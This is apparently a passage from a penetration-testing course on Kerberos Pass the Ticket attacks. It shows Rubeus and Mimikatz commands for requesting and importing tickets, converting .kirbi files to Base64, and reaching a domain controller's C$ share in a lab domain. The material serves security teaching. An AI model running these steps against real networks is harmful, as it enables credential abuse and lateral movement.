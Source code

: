 ## Pass the Ticket (PtT)

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in Base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.


#### Rubeus - Pass the Ticket

```rb
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```


Note that now it displays `Ticket successfully imported!`.

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

```rb
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the Base64 output from Rubeus or convert a .kirbi to Base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to Base64.


```powershell
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the Base64 string instead of the file name.

#### Pass the Ticket - Base64 Format

```rb
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/...SNIP...
```

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module `kerberos::ptt` and the .kirbi file that contains the ticket we want to import.'


```cmd
C:\tools> mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
mimikatz # exit
c:\tools> dir \\DC01.inlanefreight.htb\c$
```


> Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname